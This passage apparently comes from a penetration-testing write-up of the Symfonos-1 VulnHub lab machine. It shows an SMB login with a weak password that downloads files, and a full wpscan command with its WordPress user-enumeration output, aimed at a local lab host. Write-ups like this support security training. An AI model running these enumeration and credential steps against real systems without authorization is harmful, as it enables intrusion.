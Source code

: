 	Enter WORKGROUP\helios's password: qwerty
	getting file \research.txt of size 432 as research.txt (21.1 KiloBytes/sec) (average 21.1 KiloBytes/sec)
	getting file \todo.txt of size 52 as todo.txt (25.4 KiloBytes/sec) (average 21.5 KiloBytes/sec)
	```
6. View downloaded files
	![](images/Pasted%20image%2020220124032036.png)
	- `/h3l105`

## TCP/80 - HTTP - Wordpress Plugin Exploit
1. Proceed to `/h3l105`
	![](images/Pasted%20image%2020220124032349.png)
	- Wordpress CMS
2. Enumerate wp users
	```
	┌──(root💀kali)-[~/vulnHub/Symfonos-1/192.168.56.123]
	└─# wpscan --no-update --disable-tls-checks --plugins-detection aggressive --plugins-version-detection aggressive --url http://symfonos.local/h3l105 -e ap -f cli-no-color 2>&1 | tee "/root/vulnHub/Symfonos-1/192.168.56.123/scans/tcp80/tcp80_http_wpscan_plugin_enum.txt"
	[i] User(s) Identified:

	[+] admin
	 | Found By: Author Posts - Author Pattern (Passive Detection)
	 | Confirmed By:
	 |  Rss Generator (Passive Detection)
	 |  Wp Json Api (Aggressive Detection)
	 |   - http://symfonos.local/h3l105/index.php/wp-json/wp/v2/users/?per_page=100&page=1
	 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
	 |  Login Error Messages (Aggressive Detection)
	```
